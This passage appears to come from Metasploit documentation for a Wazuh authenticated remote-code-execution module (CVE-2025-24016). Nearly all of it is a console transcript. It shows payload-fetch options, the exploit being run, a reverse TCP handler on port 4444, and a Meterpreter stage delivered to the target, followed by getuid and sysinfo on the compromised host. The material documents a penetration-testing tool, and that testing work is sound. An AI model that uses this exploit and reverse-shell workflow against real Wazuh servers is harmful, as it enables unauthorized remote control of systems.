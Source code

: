```msf
   FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to the shell.


   When FETCH_FILELESS is none:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      WqYFaNqq         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wazuh_auth_rce_cve_2025_24016) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Wazuh version 4.8.2
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3090404 bytes) to 192.168.201.85
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.85:58215) at 2025-07-16 08:14:53 +0000

meterpreter > getuid
Server username: wazuh
meterpreter > sysinfo
Computer     : wazuh.master
OS           :  (Linux 6.10.14-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/
meterpreter >
```

## Limitations
This module works only on a Wazuh Server multi-node cluster configuration.
